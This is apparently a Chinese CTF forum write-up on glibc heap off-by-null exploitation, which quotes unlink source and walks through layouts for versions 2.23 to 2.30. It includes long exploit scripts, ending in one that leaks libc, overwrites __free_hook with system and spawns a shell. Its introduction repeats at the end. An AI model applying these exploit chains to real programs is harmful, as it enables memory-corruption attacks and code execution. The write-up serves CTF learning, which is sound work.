



# [原创]新人PWN堆Heap总结off-by-null专场(三)

哎，水平还是太差，望师傅们斧正。

# 前言

`off-by-null`是堆中的常见漏洞，很多时候都是结合堆布局来进行利用的。这里结合原理解析、不同版本和条件的`off-by-null`以及常见的漏洞条件做个总结。

# 一、原理解析

主要发生在`_int_free`的unlink中：

```c
//2.23 when size>global_max_fast
/* consolidate backward */
if (!prev_inuse(p)) {
prevsize = p->prev_size;
size += prevsize;
p = chunk_at_offset(p, -((long) prevsize));
unlink(av, p, bck, fwd);
}
if (nextchunk != av->top) {
/* get and clear inuse bit */
nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
/* consolidate forward */
if (!nextinuse) {
unlink(av, nextchunk, bck, fwd);
size += nextsize;
}
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {
FD = P->fd;
BK = P->bk;
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
FD->bk = BK;
BK->fd = FD;
if (!in_smallbin_range (P->size)
&& __builtin_expect (P->fd_nextsize != NULL, 0))
{
if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)
|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))
malloc_printerr (check_action,
"corrupted double-linked list (not small)",
P, AV);
if (FD->fd_nextsize == NULL) {
if (P->fd_nextsize == P)
FD->fd_nextsize = FD->bk_nextsize = FD;
else {
FD->fd_nextsize = P->fd_nextsize;
FD->bk_nextsize = P->bk_nextsize;
P->fd_nextsize->bk_nextsize = FD;
P->bk_nextsize->fd_nextsize = FD;
}
} else {
P->fd_nextsize->bk_nextsize = P->bk_nextsize;
P->bk_nextsize->fd_nextsize = P->fd_nextsize;
}
}
}
}
```

为了方便，依据物理地址相邻来命名如下：


即当`size`大于`global_max_fast`且不是mmap出来的chunk时，就会进入判断。所以这里我们进行释放用的chunk的大小就必须要大于`global_max_fast`才行，否则就是改掉了`pre_inuse`位也是直接进入fastbin，不会进入判断的。

+ 先依据当前chunk(`chunkP`)的`pre_inuse`位来判断前一个chunk(`preChunk`)是否处于释放状态，是则进入unlink，将前一个chunk取出

+ 然后判断下一个chunk(`nextChunk`)是否是`top_chunk`，是则直接与`top_chunk`合并。

+ 若`nextChunk`不为`top_chunk`，再判断下一个Chunk的再下一个chunk的`pre_inuse`位来判断`nextChunk`是否处于释放状态，若是则进入unlink。

然后unlink中就不细说，就是双向循环链表解链的过程，依据`fd`和`bk`来查找并解链，但是我们的`off-by-null`通常不会涉及到`nextsize`位的使用，所以基本不用看后面的。需要注意的是，由于这里会检查，即：

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```

所以我们需要将进入unlink的chunk的`fd`和`bk`来进行伪造或者干脆直接释放使其直接进入unsortedbin中完成双向链表的加持。这里先讲放入unsortedbin中来获取`fd`和`bk`的方法，伪造的方法一般用在2.29及以上的高版本中，因为那时候的unlink加入了关于`size`位的检查，不能简单得伪造`fd`和`bk`。

其次，这里还需要明白一个寻找chunk的原理。

+ 寻找`preChunk`：`preChunk_addr = chunkP_addr - chunkP->pre_size`

+ 寻找`nextChunk`：`nextChunk_addr = chunkP_addr + chunkP->size`

即以下源码，这个一直没有变化过：

```c
/* Ptr to previous physical malloc_chunk. Only valid if !prev_inuse (P). */
#define prev_chunk(p) ((mchunkptr) (((char *) (p)) - prev_size (p)))
/* Ptr to next physical malloc_chunk. */
#define next_chunk(p) ((mchunkptr) (((char *) (p)) + chunksize (p)))
/* Get size, ignoring use bits */
#define chunksize(p) (chunksize_nomask (p) & ~(SIZE_BITS))
/* extract p's inuse bit */
#define inuse(p) \
((((mchunkptr) (((char *) (p)) + chunksize (p)))->mchunk_size) & PREV_INUSE)
```

所以，如果我们可以伪造`pre_size`和`in_use`位，就能触发向上任意寻找一个满足`fd`和`bk`为双向链表的chunk，从而将中间所有的chunk都一并合并为一个Chunk释放掉。(向下合并也可以的，不过一般不常使用)


这里就是通过释放`chunkP`，依据`pre_size`向上寻找到原本已经在unsortedbin中的`preChunk`，其`FD`和`BK`已经组成双向循环链表，可以绕过检查，所以释放`ChunkP`之后`preChunk+OverlapChunk+chunkP`都进入到unsortedbin中。但是`OverlapChunk`本身其实并没有被释放，我们再从unsortedbin中申请切割出`preChunk`大小的chunk，再申请就可以得到`OverlapChunk`。这样我们就有两个指针都指向`OverlapChunk`，从而伪造出`UAF`，之后我们就可以通过`OverlapChunk`来getshell了。

## 1.常用布局

```python
add_malloc(0xf8,'\x00'*0xf8) #0x1
add_malloc(0x68,'\x00'*0x68) #0x2
add_malloc(0xf8,'\x00'*0xf8) #0x3
add_malloc(0x68,'\x00'*0x68) #0x4
free(0x1)
edit(0x2,0x70,'\x00'*0x60+p64(0x70+0x100)+p16(0x100))
free(0x3)
```

`off-by-null`在调试中不太好搞，所以我就借用堆溢出来假设存在`off-by-null`，将`chunk3`原本的`size`位`0x101`通过`off-by-null`变成`0x100`即可。

## 2.注意事项

### (1)顺序

此外需要注意的是，需要先释放`chunk1`，再溢出修改`chunk3`。不然如果先修改`chunk3`，那么释放`chunk1`的时候，寻找`chunk1`的`nextChunk`即`chunk2`，判断`chunk2`是否处于释放状态时，会找到`chunk3`，依据`pre_inuse`位发现`chunk2`已经处于释放状态，那么尝试进入unlink合并，但是这里的`chunk2`的`fd`和`bk`并没有组成双向循环链表，所以会出错。

### (2)size位的设置

+ `0x100`：这里注意到上面的布局中`size`位为`0x100`和`0x70`，这里的`0x100`就是为了通过`off-by-null`将`0x101`变成`0x100`设置的。当然设置为`0x201`，`0x301`通常也是一样的。

+ `0x70`：这里就通常是为了方便打fastbin attack，从`_malloc_hook`处构造`0x7f`字节错位用的。

# 二、更新换代

## 1.Glibc2.27

这里也不是特指2.27，而指的是Glibc2.29以下的存在tcache的版本，这类版本通常需要填充满tcache再进行释放，也不需要多讲。

## 2.Glibc2.29

从这个版本开始，`off-by-null`由于加入的检查，引入了好几种全新的利用方式。

### (1)`_int_free`中的变化

```c
if (!prev_inuse(p)) {
prevsize = prev_size (p);
size += prevsize;
p = chunk_at_offset(p, -((long) prevsize));
if (__glibc_unlikely (chunksize(p) != prevsize))
malloc_printerr ("corrupted size vs. prev_size while consolidating");
unlink_chunk (av, p);
}
```

加入的检查是：

```c
if (__glibc_unlikely (chunksize(p) != prevsize))
malloc_printerr ("corrupted size vs. prev_size while consolidating");
```

这里的`p`因为`p = chunk_at_offset(p, -((long) prevsize));`已经变成了`preChunk`。所以这里就是检查`preChunk->size`是否等于`chunkP->pre_size`。按照上面那张图的逻辑，`preChunk`的`size`为`0x101`，`chunkP`的`pre_size`为`0x170`，两个不等于，根本就无法进入unlink中，直接崩掉。


### (2)unlink变化

首先unlink从宏定义变成了全局函数定义，名字也从`unlink`变成了`unlink_chunk`，但实际内容没有变太多，只是加入了一些检查：

```c
/* Take a chunk off a bin list. */
static void
unlink_chunk (mstate av, mchunkptr p)
{
if (chunksize (p) != prev_size (next_chunk (p)))
malloc_printerr ("corrupted size vs. prev_size");
mchunkptr fd = p->fd;
mchunkptr bk = p->bk;
if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
malloc_printerr ("corrupted double-linked list");
fd->bk = bk;
bk->fd = fd;
if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
{
if (p->fd_nextsize->bk_nextsize != p
|| p->bk_nextsize->fd_nextsize != p)
malloc_printerr ("corrupted double-linked list (not small)");
if (fd->fd_nextsize == NULL)
{
if (p->fd_nextsize == p)
fd->fd_nextsize = fd->bk_nextsize = fd;
else
{
fd->fd_nextsize = p->fd_nextsize;
fd->bk_nextsize = p->bk_nextsize;
p->fd_nextsize->bk_nextsize = fd;
p->bk_nextsize->fd_nextsize = fd;
}
}
else
{
p->fd_nextsize->bk_nextsize = p->bk_nextsize;
p->bk_nextsize->fd_nextsize = p->fd_nextsize;
}
}
}
```

加入的检查，就加了一个if语句：

```c
if (chunksize (p) != prev_size (next_chunk (p)))
malloc_printerr ("corrupted size vs. prev_size");
```

即在unlink时会检查`nextChunk`的`pre_size`是否等于`chunkP`的`size`。

按照之前那张图的逻辑，进入unlink中时`preChunk`的`size`为`0x100`，`preChunk`的`nextChunk`，即`overlapChunk`的`pre_size`为`0x100`，相等，可以满足要求，没啥大用，但是之后提出的绕过手段也是需要绕过这个检查的。


▲后面的更高版本，到2.33都没变化，也就不提了。只是2.32中的指针异或可能需要注意一下，但是之后的绕过手段一般是基于unsortedbin，smallbin，largebin来绕过，不存在指针异或的情况，所以也不用太在意。

# 三、高版本花式绕过

这里讲的是2.29及以上的版本。

## 第一种

这个之前写过，参考这篇文章：

<a href="elink@cf2K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2H3K9h3N6Q4x3X3b7H3x3o6N6Q4x3X3g2@1L8%4m8Q4x3V1j5J5x3o6t1I4i4K6u0r3x3o6S2Q4x3V1j5I4y4q4)9J5c8U0u0Q4x3X3f1J5z5g2!0q4y4q4!0n7z5q4)9^5b7W2!0q4y4#2)9&6b7g2)9^5y4r3!0X3k6W2)9J5k6r3u0&6i4K6u0V1L8Y4g2D9L8q4)9J5c8R3`.`.">2.29下的off-by-null | PIG-007</a>

或者t1an5g师傅的文章：

https://bbs.pediy.com/thread-257901.htm#msg_header_h2_2

当然ex师傅的原始解析也很好：

<mark class="encrypted">3f9K9s2c8@1M7q4)9K6b7g2)9J5c8W2)9J5c8X3u0D9L8$3N6Q4x3X3g2W2L8$3&6W2N6#2)9J5k6h3y4F1i4K6u0r3j5i4u0U0K9r3W2$3k6i4y4Q4x3V1j5I4x3U0x3K6</mark>

但是这个需要爆破半个字节，也不能对`size`做太多的限制，且chunk需要申请大概有24个，所以看个人需要。

## 第二种

这个也写过，参考这篇：

<a href="elink@0ceK9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2H3K9h3N6Q4x3X3b7H3x3o6N6Q4x3X3g2@1L8%4m8Q4x3V1j5J5x3o6t1I4i4K6u0r3x3o6S2Q4x3V1j5I4y4q4)9J5c8U0u0Q4x3X3f1J5z5g2)9J5k6o6u0Q4x3X3f1K6x3W2!0q4y4q4!0n7z5q4)9^5b7W2!0q4y4#2)9&6b7g2)9^5y4r3!0X3k6W2)9J5k6r3u0&6i4K6u0V1L8Y4g2D9L8q4)9J5c8R3`.`.">2.29-2.32下的off-by-null | PIG-007</a>

当然我也是参考WJH师傅的：


<a href="elink@e98K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6y4U0l9%4z5l9`.`.">glibc 2.29-2.32 off by null bypass - 安全客，安全资讯平台 (anquanke.com)</a>

这个不需要爆破，但是对`size`的限制不能太严格，需要`largebin`的`size`。

## 第三种

这个还没写过总结，现在来，不过先贴下文章，`init-0`师傅的：

<a href="elink@2f4K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6x3e0b7I4z5q4)9J5x3$3R3K6i4K6u0V1z5l9`.`.">堆漏洞利用（2.29以上glibc,off-by-null, 加了申请size限制） - 安全客，安全资讯平台 (anquanke.com)</a>

这种方法在`size`限制下也可以使用，文章中的限制是`0xe8`的堆块，真是将堆布局用到极高的水平。

### 先看最终的布局效果


这样就能通过两项检查了：

```c
//_int_free中
if (__glibc_unlikely (chunksize(p) != prevsize))
malloc_printerr ("corrupted size vs. prev_size while consolidating");
//unlink中
if (chunksize (p) != prev_size (next_chunk (p)))
malloc_printerr ("corrupted size vs. prev_size");
```

### (1) 前置布局

由于`init-0`师傅的题目中，申请`chunk`是从`0x3a0`开始的，所以这里我就也以`0x3a0`开始：

```python
#get layout to let chunk0_addr = 0x****3a0
claim(0x88)# 0-6 #1-7
claim(0x98)# 7-13 #8-14
claim(0xa8)# 14-20 #15-21
claim(0xb8)# 21-27 #22-28
claim(0xc8)# 28-34 #29-35
claim(0xd8)# 35-41 #36-42
claim(0xe8)# 42-48 #43-49
#--------------------------
add_malloc(0x98,'\x00')# 49 #50
add_malloc(0x98,'\x00')# 50 #51 0x****f900
add_malloc(0x18,'\x00')# 51 #52 0x****f9a0
add_malloc(0xa8,'\x00')# 52 0 #53 0x****f9c0
add_malloc(0xb8,'\x00')# 53 1 #54 0x****fa70
add_malloc(0xd8,'\x00')# 54 2 #55 0x****fb30
add_malloc(0xd8,'\x00')# 55 #56
add_malloc(0xe8,'\x00')# 56 3 #57 0x****fcf0
#这个0x200和0xe0的设置是为了之后将unsortedbinChunk给改成0x200备用的
fakeChunk_nextChunk_preSize = p64(0x200) + p64(0xe0)
edit(57,0x10,fakeChunk_nextChunk_preSize)# 56 #57
add_malloc(0xe8,'\x00')# 57 4 #58 0x****fde0
add_malloc(0x98,'\x00')# 58 #59
add_malloc(0xe8,'\x00')# 59 #60 0x****ff70
add_malloc(0x18,'\x00')# 60 #61
```

### (2) 填充tcache

并且将要利用的`Chunk`释放合并进入`unsortedbin`

```python
#free 0~48 #1~49
#-------------------------
#--tcache
for i in range(0,7): #0x88
free(i+1)
for i in range(14,21):#0xa8
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
for i in range(35,42):#0xd8
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#--tcache
for i in range(52,57): #52~56 #53~57 merge into unsortedbin
free(i+1)
```




### (3) 重构53~57结构为97~101

```python
#---------------------------
# empty tcache
claim(0x88) #62~68
claim(0xa8) #69~75
claim(0xb8) #76~82
claim(0xd8) #83~89
claim(0xe8) #90~96
#---------------------------
#---------------------------------------------------------------- 上面是一个大的unsorted bin
#进行add之后carver up and unsortedbin 被放入了largebin 之后进行了分配
add_malloc(0x98,'\x00')# 52 #97 #0x****9c0
add_malloc(0x98,'\x00')# 53 #98 #0x****A60
fake_chunk_size = 0x98 * "a" + p16(0x200)
#这里我借用堆溢出来仿照off-by-null，修改还在largebin中的chunk的size从0x2e1->0x200
#changing largebinChunk_size will not cause abort
edit(98,0x98+0x2,fake_chunk_size)#53 #98
add_malloc(0x88,'\x00')#54 #99 #0x****B00
add_malloc(0x88,'\x00')#55 #100 #0x****B90
add_malloc(0xd8,'\x00')#56 #101 #0x****C70
```

重构之后如下



那么实际上其实原先的`0x420`被申请了`0x340`，还有一部分`0xe0`没有被申请出来。


### (4) 构造preChunk的fd和bk

```python
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(0,7):#0x88
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#------tcache
free(51)#0x98 #50 #51 #0x****f900
#let 99->fd = chunk51_addr(0x****f900)
free(99)#0x88 #54 #99
#let 99->bk = chunk60_addr(0x****ff70)
free(60)#0xe8 #59 #60 #0x****ff70
```


### (5) 再重构97~101为97->124->132->134

```python
free(98)#0x98 #53 #98
#---------------add back
claim(0x88) #102~108
claim(0x98) #109~115
claim(0xe8) #116~122
#---------------add back
#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块
#之后依据大小适配原则将60分配回来给123
add_malloc(0xd8,'\x00')# 0x32 #123 0x****ff70,实际大小为0xf0
#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中
add_malloc(0xb8,'\x00')# 0x35 #124 0x****fa60
for i in range(0,7):#0x88
free(i+1)
#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块
free(100) #55 #100
claim(0x88) #125~131
#切割0x101的块，获得0xb8大小的0x****fb20，方便与0x****f900的块放入同一个unsortebin中
add_malloc(0xb8,'\x00')#0x36 #132 0x****fb20
add_malloc(0x98,'\x00')#0x37 #133 0x****f900
add_malloc(0x38,'\x00')#0x3b #134 0x****fbe0
```

重构之后如下



### (6) 修复FD->bk和BK->fd

```python
#------tcache
for i in range(42,49):#0xe8
free(i+1)
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
#let 133->bk = chunk132_addr(0x****f900->bk = 0x****fb20)
free(133) #0x37 #133 0x****f900
free(132) #0x36 #132 0x****fb20
#let 123->fd = chunk132_addr(0x****ff70->bk = 0x****fb20)
free(123) #0x32 #123 0x****ff70
```

### (7) 再重构为97->124->157->134

方便将`0x****ff70`和`0x****f900`的对于`fd`,`bk`进行`off-by-null`，使得`0xb20`变为`0xb00`。

```python
free(59) #58 #59 0x****fed0
#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)
claim(0x98) #135~141
claim(0xb8) #142~148
claim(0xe8) #149~155
add_malloc(0xc8,'\x00') #0x32 #156 0x****fed0
add_malloc(0xb8,'\x00') #0x36 #157 0x****fb20
add_malloc(0xb8,'\x00') #0x37 #158 0x****ffa0
add_malloc(0x98,'\x00') #58 #159 0x****f900
#--top_chunk
add_malloc(0x98,'\x00') #0x3d #160
add_malloc(0x98,'\x00') #0x3e #161
add_malloc(0x18,'\x00') #0x3f #162
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
free(161) #0x98 #0x3e #161
free(159) #0x98 #58 #159 0x****f900
free(157) #0xb8 #0x36 #157
free(50) #0x98 #49 #50 0x****f860
#其中159和50合并为0x140大小的块放入unsortedbin中
#unsortedbin:0x****f860 —▸ 0x****fb20 —▸ 0x****0120
claim(0xb8) #163~169
claim(0x98) #170~176
#----------------------------------------------------
add_malloc(0xb8,'\x00') #49 #177
add_malloc(0x98,'\x00') #0x36 #178
#切割0x140的块
add_malloc(0xc8,'\x00')#0x3a #179 0x****f860
add_malloc(0x68,'\x00')#0x3e #180
```

现在就可以通过`chunk179`来将`0x****f900`中的`bk`给改掉。

通过`chunk156`来将`0x****ff70`中的`fd`给改掉。

### (8) 利用off-by-null得到最终布局

```python
partial_null_write = 0x98*'b'
partial_null_write += p64(0xf1)
edit(156,0x98+0x8+0x1,partial_null_write+'\x00') #0x32 #156
partial_null_write = 0xa8*'c'
edit(179,0xa8+0x1,partial_null_write + '\x00') #0x3a #179
#伪造pre_size
fake_chunk_size = 0x98*'d'
fake_chunk_size += p64(0x2e1)
edit(124,0x98+0x8,fake_chunk_size) #0x35 #124
```

### (9) 触发off-by-null

```python
for i in range(42,49):#0xe8
free(i+1)
free(58)
```

## 总结

①利用`unsortedbin`成链机制，合并`unsortedbin`中的`chunk`并且切割，这样就能保留住`FD`和`BK`了。

②再利用`unsortedbin`成链和切割的机制，就能修改到对应`preChunk`的`FD`和`BK`了，修改最后一个字节为`\x00`即可。

③由于2.29之后的添加的两项检查，所以需要注意的是伪造`unsortedbinChunk`的`size`时，也要伪造`nextChunk`的`pre_size`和`pre_inuse`位。

④太他丫的麻烦了，有这时间布局还不如肝其他题.....

再贴个汇总的`exp`，基于`libc2.30`，自己的题目：


```python
#有size限制，对应索引往后移即可
add_malloc(0x1000-0x290+0x3000-0x8+0x3a0,'PIG007NB')
#old #new
#get layout to let chunk0_addr = 0x****3a0
claim(0x88)# 0-6 #1-7
claim(0x98)# 7-13 #8-14
claim(0xa8)# 14-20 #15-21
claim(0xb8)# 21-27 #22-28
claim(0xc8)# 28-34 #29-35
claim(0xd8)# 35-41 #36-42
claim(0xe8)# 42-48 #43-49
#--------------------------
add_malloc(0x98,'\x00')# 49 #50
add_malloc(0x98,'\x00')# 50 #51 0x****f900
add_malloc(0x18,'\x00')# 51 #52 0x****f9a0
add_malloc(0xa8,'\x00')# 52 0 #53 0x****f9c0
add_malloc(0xb8,'\x00')# 53 1 #54 0x****fa70
add_malloc(0xd8,'\x00')# 54 2 #55 0x****fb30
add_malloc(0xd8,'\x00')# 55 #56
add_malloc(0xe8,'\x00')# 56 3 #57 0x****fcf0
#这个0x200和0xe0的设置是为了之后将unsortedbinChunk给改成0x200备用的
fakeChunk_nextChunk_preSize = p64(0x200) + p64(0xe0)
edit(57,0x10,fakeChunk_nextChunk_preSize)# 56 #57
add_malloc(0xe8,'\x00')# 57 4 #58 0x****fde0
add_malloc(0x98,'\x00')# 58 #59
add_malloc(0xe8,'\x00')# 59 #60 0x****ff70
add_malloc(0x18,'\x00')# 60 #61
#free 0~48 #1~49
#-------------------------
#--tcache
for i in range(0,7): #0x88
free(i+1)
for i in range(14,21):#0xa8
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
for i in range(35,42):#0xd8
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#--tcache
for i in range(52,57): #52~56 #53~57 merge into unsortedbin
free(i+1)
#---------------------------
# empty tcache
claim(0x88) #62~68
claim(0xa8) #69~75
claim(0xb8) #76~82
claim(0xd8) #83~89
claim(0xe8) #90~96
#---------------------------
#---------------------------------------------------------------- 上面是一个大的unsorted bin
#进行add之后carver up and unsortedbin 被放入了largebin 之后进行了分配
add_malloc(0x98,'\x00')# 52 #97 #0x****9c0
add_malloc(0x98,'\x00')# 53 #98 #0x****A60
fake_chunk_size = 0x98 * "a" + p16(0x200)
#这里我借用堆溢出来仿照off-by-null，修改还在largebin中的chunk的size从0x2e1->0x200
#changing largebinChunk_size will not cause abort
edit(98,0x98+0x2,fake_chunk_size)#53 #98
add_malloc(0x88,'\x00')#54 #99 #0x****B00
add_malloc(0x88,'\x00')#55 #100 #0x****B90
add_malloc(0xd8,'\x00')#56 #101 #0x****C70
#构造preChunk的fd和bk------------------------
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(0,7):#0x88
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#------tcache
free(51)#0x98 #50 #51 #0x****f900
#let 99->fd = chunk51_addr(0x****f900)
free(99)#0x88 #54 #99
#let 99->bk = chunk60_addr(0x****ff70)
free(60)#0xe8 #59 #60 #0x****ff70
#构造preChunk的fd和bk------------------------
free(98)#0x98 #53 #98
#---------------add back
claim(0x88) #102~108
claim(0x98) #109~115
claim(0xe8) #116~122
#---------------add back
#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块
#之后依据大小适配原则将60分配回来给123
add_malloc(0xd8,'\x00')# 0x32 #123 0x****ff70,实际大小为0xf0
#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中
add_malloc(0xb8,'\x00')# 0x35 #124 0x****fa60
for i in range(0,7):#0x88
free(i+1)
#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块
free(100) #55 #100
claim(0x88) #125~131
#切割0x101的块，获得0xb8大小的0x****fb20，方便与0x****f900的块放入同一个unsortebin中
add_malloc(0xb8,'\x00')#0x36 #132 0x****fb20
add_malloc(0x98,'\x00')#0x37 #133 0x****f900
add_malloc(0x38,'\x00')#0x3b #134 0x****fbe0
#修复FD->bk和BK->fd-----------------------------
#------tcache
for i in range(42,49):#0xe8
free(i+1)
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
#let 133->bk = chunk132_addr(0x****f900->bk = 0x****fb20)
free(133) #0x37 #133 0x****f900
free(132) #0x36 #132 0x****fb20
#let 123->fd = chunk132_addr(0x****ff70->bk = 0x****fb20)
free(123) #0x32 #123 0x****ff70
#修复FD->bk和BK->fd-----------------------------
free(59) #58 #59 0x****fed0
#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)
claim(0x98) #135~141
claim(0xb8) #142~148
claim(0xe8) #149~155
add_malloc(0xc8,'\x00') #0x32 #156 0x****fed0
add_malloc(0xb8,'\x00') #0x36 #157 0x****fb20
add_malloc(0xb8,'\x00') #0x37 #158 0x****ffa0
add_malloc(0x98,'\x00') #58 #159 0x****f900
#--top_chunk
add_malloc(0x98,'\x00') #0x3d #160
add_malloc(0x98,'\x00') #0x3e #161
add_malloc(0x18,'\x00') #0x3f #162
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
free(161) #0x98 #0x3e #161
free(159) #0x98 #58 #159 0x****f900
free(157) #0xb8 #0x36 #157
free(50) #0x98 #49 #50 0x****f860
#其中159和50合并为0x140大小的块放入unsortedbin中
#unsortedbin:0x****f860 —▸ 0x****fb20 —▸ 0x****0120
claim(0xb8) #163~169
claim(0x98) #170~176
#----------------------------------------------------
add_malloc(0xb8,'\x00') #49 #177
add_malloc(0x98,'\x00') #0x36 #178
#切割0x140的块
add_malloc(0xc8,'\x00')#0x3a #179 0x****f860
add_malloc(0x68,'\x00')#0x3e #180
partial_null_write = 0x98*'b'
partial_null_write += p64(0xf1)
edit(156,0x98+0x8+0x1,partial_null_write+'\x00') #0x32 #156
partial_null_write = 0xa8*'c'
edit(179,0xa8+0x1,partial_null_write + '\x00') #0x3a #179
#伪造pre_size
fake_chunk_size = 0x98*'d'
fake_chunk_size += p64(0x2e1)
edit(124,0x98+0x8,fake_chunk_size) #0x35 #124
for i in range(42,49):#0xe8
free(i+1)
free(58)
#pull-down the unsortedbinChunk to chunk134 and leak main_arena
edit(134,0x8,"e"*8) #0x3b #134
add_malloc(0xd8,'\x00') #181
show(134)
libc_base = u64Leakbase(unsortedBinIdx + libc.sym['__malloc_hook'] + 0x10)
lg('libc_base',libc_base)
#---------------------------------------------------------------------------------
claim(0xe8) #182~188
add_malloc(0xe8,'\x00') #0x40 #189
free(44) #0x2b #44
free(134) #0x3b #134
edit(189,0x8,p64(libc_base+libc.sym['__free_hook']-8)) #0x40 #189
add_malloc(0xe8,'\x00') #190
add_malloc(0xe8,'\x00') #191
edit(191,0x10,"/bin/sh\x00"+p64(libc_base+libc.sym['system'])) #191
free(191)
it()
#--------------------------------------------------------------
```

哎，水平还是太差，望师傅们斧正。

# 前言

off-by-null是堆中的常见漏洞，很多时候都是结合堆布局来进行利用的。这里结合原理解析、不同版本和条件的off-by-null以及常见的漏洞条件做个总结。

# 一、原理解析

主要发生在`_int_free`的`unlink`中：

|    |    |
| --- | --- |


```c
// 2.23 when size > global_max_fast
/*
 * consolidate backward
 */
if (!prev_inuse(p)) {
  prevsize = p->prev_size;
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  unlink(av, p, bck, fwd);
}

if (nextchunk != av->top) {
  /* get and clear inuse bit */
  nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

  /* consolidate forward */
  if (!nextinuse) {
    unlink(av, nextchunk, bck, fwd);
    size += nextsize;
  }

  /*
   * Take a chunk off a bin list
   */
  #define unlink(AV, P, BK, FD) {                                            \
    FD = P->fd;                                                              \
    BK = P->bk;                                                              \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                    \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV); \
    else {                                                                   \
      FD->bk = BK;                                                           \
      BK->fd = FD;                                                           \
      if (!in_smallbin_range (P->size)                                       \
          && __builtin_expect (P->fd_nextsize != NULL, 0)) {                 \
        if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)           \
            || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))       \
          malloc_printerr (check_action,                                     \
                           "corrupted double-linked list (not small)",       \
                           P, AV);                                           \
        if (FD->fd_nextsize == NULL) {                                       \
          if (P->fd_nextsize == P)                                           \
            FD->fd_nextsize = FD->bk_nextsize = FD;                          \
          else {                                                             \
            FD->fd_nextsize = P->fd_nextsize;                                \
            FD->bk_nextsize = P->bk_nextsize;                                \
            P->fd_nextsize->bk_nextsize = FD;                                \
            P->bk_nextsize->fd_nextsize = FD;                                \
          }                                                                  \
        } else {                                                             \
          P->fd_nextsize->bk_nextsize = P->bk_nextsize;                      \
          P->bk_nextsize->fd_nextsize = P->fd_nextsize;                      \
        }                                                                    \
      }                                                                      \
    }                                                                        \
  }
}
```

为了方便，依据物理地址相邻来命名如下：


